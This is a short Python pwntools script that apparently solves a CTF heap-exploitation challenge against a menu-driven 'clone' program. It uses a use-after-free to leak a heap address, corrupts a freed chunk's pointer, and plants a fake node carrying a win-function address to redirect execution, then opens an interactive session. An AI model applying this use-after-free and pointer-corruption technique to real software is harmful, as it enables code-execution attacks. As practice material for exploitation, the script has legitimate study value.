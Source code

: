 ```python

def kill(index):
    log.info("Kill: {}".format(index))
    p.sendline("b")
    p.recvuntil("Clone ID:")
    p.sendline(str(index))
    menu()

def view(index):
    log.info("View: {}".format(index))
    p.sendline("d")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Name: ",timeout=0.1)
    result = p.recvline()
    menu()
    return result

def hint(index):
    log.info("Hint: {}".format(index))
    p.sendline("h")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    return p.recvline()


win = p32(0x08048b7c)

# legitimate node to make more space in the bins
make(0, 'dummy')

# make the first one
make(1, 'first')

# make second one
make(2, 'second')

# free both + dummy
kill(0)
kill(1)
kill(2)

# Leak address
leak = view(2)

# leaked heap address
heapAddr = u32(leak[:4])

# write to the first one
edit(1, p32(heapAddr + 8))

# Create new node
make(3, 'third')
make(4, 'four')

# Create malicious node
make(5, p32(0x6447) + win)

# Get hint from corrupted node
hint(4)

p.interactive()
```